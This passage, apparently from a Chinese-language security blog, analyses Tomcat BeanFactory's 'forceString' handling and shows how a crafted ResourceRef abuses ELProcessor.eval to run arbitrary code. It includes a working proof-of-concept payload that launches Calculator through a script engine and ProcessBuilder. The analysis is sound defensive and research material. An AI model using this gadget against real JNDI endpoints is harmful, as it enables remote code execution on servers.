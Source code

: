 ```java
                value = (String)ra.getContent();
                Class<?> paramTypes[] = new Class[1];
                paramTypes[0] = String.class;
                String setterName;
                int index;

                /* Items are given as comma separated list */
                for (String param: value.split(",")) {
                    // 这里的核心，就是解析 forceString, 生成 setXxx 方法，在实例化之后调用
                    try {
                        forced.put(param,
                                   beanClass.getMethod(setterName, paramTypes));
                    } catch (NoSuchMethodException|SecurityException ex) {
                    }
                }
            }

            Enumeration<RefAddr> e = ref.getAll();

            while (e.hasMoreElements()) {
                // forced 执行
                Method method = forced.get(propName);
                try {
                    method.invoke(bean, valueArray);
                } catch (IllegalAccessException e)
                }
                continue;
            }
    }
}
```

上面减去了一些不重要的代码，重点可以看到下面这个逻辑

- 找到一个jvm中存在的类beanClass
- 对于`key = forceString` 的RefAddr，会做一个特殊处理
  - value形如 `argVal = rename`
  - 基于上面的形式，会从beanClass中找到一个名为`methodName = rename`，参数有一个，且为`String`的方法
- 在对象实例化时，会调用上面的方法，其中具体的参数值，从 `RefAddr`中查找key = `argVal` 的取值

举一个实例如下

```java
ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
ref.add(new StringRefAddr("forceString", "x=eval"));
ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/Applications/Calculator.app/Contents/MacOS/Calculator']).start()\")"));
```

上面三行，最终直接的结果就是在创建实例对象时，有下面三步

- 从ElProcessor中找到eval方法

